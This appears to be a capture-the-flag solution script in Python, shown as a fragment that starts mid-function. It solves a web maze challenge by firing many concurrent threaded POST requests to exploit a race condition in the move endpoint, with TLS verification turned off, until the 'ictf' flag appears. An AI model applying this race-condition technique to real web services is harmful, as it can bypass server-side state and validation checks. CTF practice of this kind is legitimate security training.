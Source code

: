 ```python 
    return maze,mazeid

def getCurrentMaze():
    resp = requests.get(TARGET,verify=False)
    soup=bs(resp.text, 'html.parser')
    maze = soup.find('code').text.strip()
    return maze

def moveDown():
    requests.post(TARGET_MOVE,verify=False,headers={"Content-Type":"application/x-www-form-urlencoded"},data={"Down":"Down"},params = {'id': MAZE_ID,'move': 'down'})

def moveRight():
    requests.post(TARGET_MOVE,verify=False,headers={"Content-Type":"application/x-www-form-urlencoded"},data={"Right":"Right"},params = {'id': MAZE_ID,'move': 'right'})

def moveLeft():
    requests.post(TARGET_MOVE,verify=False,headers={"Content-Type":"application/x-www-form-urlencoded"},data={"Left":"Left"},params = {'id': MAZE_ID,'move': 'left'})

def moveUp():
    requests.post(TARGET_MOVE,verify=False,headers={"Content-Type":"application/x-www-form-urlencoded"},data={"Up":"Up"},params = {'id': MAZE_ID,'move': 'up'})


if __name__ == "__main__":
    # Get Maze
    maze,MAZE_ID = getMaze()
    TARGET = TARGET+MAZE_ID
    print(maze)
    print()

    while ("ictf" not in requests.get(TARGET,verify=False).text):
        before = getCurrentMaze()
        # Race down
        for i in range(10):
            th = threading.Thread(target=moveDown, args=())
            th.start()

        # Race right
        for i in range(10):
            th = threading.Thread(target=moveRight, args=())
            th.start()

        after = getCurrentMaze()
        if before == after:
            moveLeft()
            moveUp()
            print(getCurrentMaze())    
            print()
        else:
            print(getCurrentMaze())    
            print()
    
    print(requests.get(TARGET,verify=False).text)

```
